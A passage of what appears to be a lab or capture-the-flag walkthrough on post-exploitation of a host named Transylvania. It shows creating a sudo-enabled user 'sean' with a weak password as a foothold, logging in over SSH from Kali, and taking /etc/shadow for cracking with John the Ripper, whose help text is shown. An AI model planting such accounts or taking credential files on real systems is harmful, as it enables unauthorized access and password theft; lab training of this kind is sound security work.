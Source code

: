 Time to create a user!

```bash
adduser sean
Adding user `sean' ...
Adding new group `sean' (1002) ...
Adding new user `sean' (1002) with group `sean' ...
Creating home directory `/home/sean' ...
Copying files from `/etc/skel' ...

Enter new UNIX password: test
Retype new UNIX password: test
passwd: password updated successfully

usermod -aG sudo sean
```

Now we can `ssh` into the server:

```bash
root@kali:~# ssh sean@10.0.3.28
sean@10.0.3.28's password: 
Welcome to Ubuntu 12.04.4 LTS (GNU/Linux 3.11.0-15-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

sean@Transylvania:~$ exit
logout
Connection to 10.0.3.28 closed.
```

We can now acquire the password hashes, which are located `/etc/shadow`. Copying this file into `kali`, we can try cracking these hashes.

```bash
root@kali:~# john
Created directory: /root/.john
John the Ripper password cracker, version 1.8.0.6-jumbo-1-bleeding [linux-x86-64-avx]
Copyright (c) 1996-2015 by Solar Designer and others
Homepage: http://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES]
--single[=SECTION]        "single crack" mode
--wordlist[=FILE] --stdin wordlist mode, read words from FILE or stdin
                  --pipe  like --stdin, but bulk reads, and allows rules
--loopback[=FILE]         like --wordlist, but fetch words from a .pot file
--dupe-suppression        suppress all dupes in wordlist (and force preload)
--prince[=FILE]           PRINCE mode, read words from FILE
--encoding=NAME           input encoding (eg. UTF-8, ISO-8859-1). See also
                          doc/ENCODING and --list=hidden-options.
--rules[=SECTION]         enable word mangling rules for wordlist modes
--incremental[=MODE]      "incremental" mode [using section MODE]
--mask=MASK               mask mode using MASK
--markov[=OPTIONS]        "Markov" mode (see doc/MARKOV)
--external=MODE           external mode or word filter
--stdout[=LENGTH]         just output candidate passwords [cut at LENGTH]
--restore[=NAME]          restore an interrupted session [called NAME]
```